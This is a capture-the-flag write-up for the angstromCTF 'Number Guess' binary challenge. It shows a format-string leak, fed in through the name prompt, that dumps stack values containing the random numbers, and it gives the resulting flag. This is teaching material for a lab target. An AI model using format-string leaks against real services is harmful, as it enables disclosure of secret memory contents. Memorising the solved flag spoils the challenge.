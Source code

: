 # Number Guess challenge writeup

**Category:** Binary - 70

**Description:**

> Ian loves playing number guessing games, so he went ahead and [wrote one](./accumulator) himself ([source](./accumulator64)). I hope it doesn't have any vulns. The service is running at nc shell.angstromctf.com 1235.

## Solution write-up

The program asks for our name, which is pretty suspicious in itself since it doesn't have anything to do with the task. Upon a closer look, we can see that what we give him as our "name" is (almost) directly outputed, and in an unsafe way. That mean we can feed the program a format string to have a look at the top of the stack.


```
$ python -c "print '%x-'*13"
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-
$ ./guessPublic64 
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
ba5f8034-6bb-494fe-cc3781a4-cc378220-ba5f8178-0-400a50-5e3e8-ba5f8170-daf6e900-400a50-cbfbf1c1's guess: Sorry, the answer was 686310. Try again :(
```

Okay so the result was 686310, now we can try to find the two integers in the dumped part of the stack and hope that they're here. Most of the values are already higher than the result so this limits our possibilities.


After looking around for a few seconds, we get this :


```python
>>> 0x5e3e8 + 0x494fe
686310
```

So the values of the randomly generated integers are the third and ninth from the top of the stack. 

```
$ ./guessPublic64 
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x    
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
92623254-827-20d6e-6c4e61a4-6c4e6220-92623398-0-400a50-c375-92623390-67605c00-400a50's guess: 
```

```python
>>> 0x20d6e + 0xc375
184547
```

```
$ ./guessPublic64 
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x    
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
92623254-827-20d6e-6c4e61a4-6c4e6220-92623398-0-400a50-c375-92623390-67605c00-400a50's guess: 184547
Congrats, here's a flag: actf{format_stringz_are_pre77y_sc4ry}
```
